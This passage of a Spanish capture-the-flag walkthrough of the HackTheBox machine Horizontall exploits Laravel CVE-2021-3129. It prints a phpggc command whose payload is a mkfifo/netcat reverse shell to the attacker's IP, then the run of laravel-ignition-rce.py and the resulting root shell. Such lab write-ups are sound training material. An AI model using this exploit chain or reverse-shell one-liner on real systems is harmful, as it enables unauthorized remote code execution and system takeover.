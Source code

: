 Conociendo las versiones utilizadas de PHP y Laravel, busco exploits que puedan aplicar a través de *SearchSploit*, pero la búsqueda no es satisfactoria. Es por ello que decido también buscar en `GitHub`, donde encuentro el exploit que se muestra a continuación y que decido probar:

![Exploit para la vulnerabilidad CVE-2021-3129 de Laravel](/assets/img/HTB/Horizontall/githubexploit.png)

Para utilizar este exploit hay que pasarle como argumentos la URL del servicio vulnerable y un archivo ".phar" que contenga las acciones que queremos aplicar. En el propio repositorio se explica como crear este archivo ".phar" utilizando php a través de interfaz de comandos. Solo se tendría que sustituir la parte final por el comando que queremos ejecutar en la máquina que contiene el servicio vulnerable, en mi caso enviará una shell mediante *Netcat* a mi máquina de atacante por el puerto 445.

Una vez creado el fichero ".phar", ejecuto el exploit especificando la URL y el fichero creado y obtengo una conexión de la máquina víctima directamente como el usuario root, pudiendo así visualizar la flag final.

```
# php -d'phar.readonly=0' phpggc/phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.15.36 445 >/tmp/f"

# python3 laravel-ignition-rce.py http://localhost:8000/ /tmp/exploit.phar

+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !

─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
# nc -lvnp 445

listening on [any] 445 ...
connect to [10.10.15.36] from (UNKNOWN) [10.10.11.105] 41656
bash: cannot set terminal process group (40736): Inappropriate ioctl for device
bash: no job control in this shell

root@horizontall: cat /root/root.txt
```
